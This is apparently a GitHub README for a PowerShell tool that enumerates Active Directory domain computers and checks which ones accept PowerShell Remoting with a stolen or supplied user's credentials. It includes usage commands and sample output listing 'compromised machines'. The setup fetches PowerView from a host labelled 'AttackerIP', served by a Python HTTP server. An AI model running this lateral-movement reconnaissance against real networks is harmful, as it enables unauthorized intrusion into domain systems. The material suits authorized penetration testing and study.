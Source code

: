 
# PSRemoting Checker

A Simple PowerShell script to identify domain computers accessible via PowerShell Remoting with provided credentials of An User.

## Features


- Domain computer enumeration
- PSRemoting accessibility testing
- Summary of compromised machines

## Prerequisites

- Network access to domain controller
- HTTP server hosting PowerView.ps1 on port 445
- Valid domain credentials

## Usage

```powershell
.\PSRemotingChecker.ps1 -AttackerIP "10.10.16.2" -Username "domain\user" -Password "P@ssw0rd!"
```

## Parameters

| Parameter    | Description                              | Example Value                   |
|--------------|------------------------------------------|---------------------------------|
| AttackerIP   | IP hosting PowerView.ps1                 | `10.10.16.2`                    |
| Username     | Domain user in `DOMAIN\username` format  | `internal.zsm.local\melissa`    |
| Password     | Password for specified user              | `WinterIsHere2022!`             |

## Output Example

```text
[*] PowerShell Version: 5.1.20348.2849
[*] Downloading PowerView...
[+] PowerView saved to C:\Users\marcus\AppData\Local\Temp\PowerView.ps1
[*] Importing PowerView...
[+] PowerView imported.
[*] Enumerating domain computers...
[+] Found 23 computers.

=== ACCESSIBLE MACHINES ===

ComputerName   AccessAs
------------   --------
DC01           internal\melissa
FILE01         internal\melissa
SQL02          internal\melissa

Total accessible machines: 3
```

## Setup Instructions

1. Host PowerView.ps1 on your attack machine:
   ```bash
   python3 -m http.server 445
   ```
2. Clone repository:
   ```bash
   git clone https://github.com/yourusername/PSRemotingChecker.git
   ```
3. Run script with domain credentials

## Security Considerations

- Always use temporary credentials for testing
- Delete script after use in production environments
- Ensure proper authorization before running

## License

MIT License - See [LICENSE](LICENSE) for details
